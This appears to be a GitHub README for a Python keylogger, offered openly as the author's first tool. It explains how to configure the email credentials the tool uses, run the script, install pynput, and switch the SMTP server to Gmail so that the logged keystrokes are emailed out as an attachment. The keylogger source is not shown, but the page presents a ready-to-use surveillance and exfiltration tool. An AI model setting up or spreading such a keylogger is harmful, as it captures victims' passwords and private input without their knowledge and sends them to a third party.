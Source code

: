 #### This keylogger is my first tool using python :D
#### It's a simple keylogger that sends email with logs attachment.
#### Thanks to [kahla-sec](https://github.com/kahla-sec) for help :D .
### How to use : 
#### 1. specify the address and the password of your email in the main
```python
k = keylogger("email","password")
```
#### 2. python keylogger.py ( or python3 keylogger.py )
#### Requirements :  pynput library
```sh
pip install pynput
```
##### or
```sh
pip3 install pynput
```
### NOTE
#### if you are using gmail, change the SMTP server to smtp.gmail.com
```python
serveur = SMTP("smtp.gmail.com",587)
```
